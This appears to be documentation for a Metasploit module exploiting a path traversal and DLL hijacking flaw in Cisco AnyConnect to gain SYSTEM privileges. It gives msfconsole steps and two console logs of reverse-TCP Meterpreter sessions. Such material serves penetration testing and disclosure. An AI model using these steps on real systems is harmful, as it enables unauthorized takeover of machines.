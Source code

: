 ## Vulnerable Application

The installer component of Cisco AnyConnect Secure Mobility Client for Windows
prior to 4.8.02042 is vulnerable to path traversal and allows local attackers
to create/overwrite files in arbitrary locations with system level privileges.

The attack consists in sending a specially crafted RPC request to the TCP port
62522 on the loopback device, which is exposed by the Cisco AnyConnect Secure
Mobility Agent service. This service will then launch the vulnerable installer
component (`vpndownloader`), which copies itself to an arbitrary location
before being executed with system privileges. Since `vpndownloader` is also
vulnerable to DLL hijacking, a specially crafted DLL (`dbghelp.dll`) is created
at the same location `vpndownloader` will be copied to get code execution with
system privileges.

This exploit has been successfully tested against Cisco AnyConnect Secure
Mobility Client versions 4.5.04029, 4.5.05030 and 4.7.04056 on Windows 10
version 1909 (x64) and Windows 7 SP1 (x86).

Unfortunately, AnyConnect Secure Mobility Client is not publicly available.
Only customers with active contracts can download it.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session with non-administrative privileges
  4. Do: ```use exploit/windows/local/anyconnect_path_traversal_lpe```
  5. Do: ```set SESSION <SESSION>```
  6. Do: ```set payload windows/meterpreter/reverse_tcp```
  7. Do: ```set LHOST <LHOST>```
  8. Do: ```set LPORT <LPORT>```
  9. Do: ```check```
  10. Do: ```run```
  11. You should get a new session with system privileges

## Options
### ForceExploit

  Set this to `true` to override the `check` result during exploitation.

## Scenarios

### Windows 10 version 1909 (x64) with AnyConnect 4.7.4056

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.7.4056.0.0 appears to be vulnerable
  [*] "-ipc" argument needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] RPC Command: "CAC-nc-install	-ipc=1820	C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\nope\nope\nope\nope\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded RPC command (size = 269 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.202
  [*] Meterpreter session 9 opened (172.16.60.1:4445 -> 172.16.60.202:49765) at 2020-06-19 19:35:29 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-UUQE0B4
  OS              : Windows 10 (10.0 Build 18363).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### Windows 7 SP1 (x86) with AnyConnect 4.5.5030

  ```
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set SESSION 8
  SESSION => 8
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LHOST 172.16.60.1
  LHOST => 172.16.60.1
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set LPORT 4445
  LPORT => 4445
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > set verbose true
  verbose => true
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > check

  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(windows/local/anyconnect_path_traversal_lpe) > run

  [*] Started reverse TCP handler on 172.16.60.1:4445
  [*] Found vpndownloader.exe path: 'C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
  [+] Cisco AnyConnect version 4.5.5030.0.0 appears to be vulnerable
  [*] "-ipc" argument not needed
  [*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
  [*] RPC Command: "CAC-nc-install	C:\Program Files\Cisco\Cisco AnyConnect Secure Mobility Client\nope\nope\nope\nope\../../../../vpndownloader.exe	-"
  [*] Connecting to the AnyConnect agent on 127.0.0.1:62522
  [*] Send the encoded RPC command (size = 247 bytes)
  [*] Sending stage (176195 bytes) to 172.16.60.134
  [*] Meterpreter session 10 opened (172.16.60.1:4445 -> 172.16.60.134:49218) at 2020-06-19 19:41:53 +0200
  [+] Deleted C:\ProgramData\Cisco\dbghelp.dll
  [+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
  [*] Shutdown the socket

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : WIN7-DEV
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
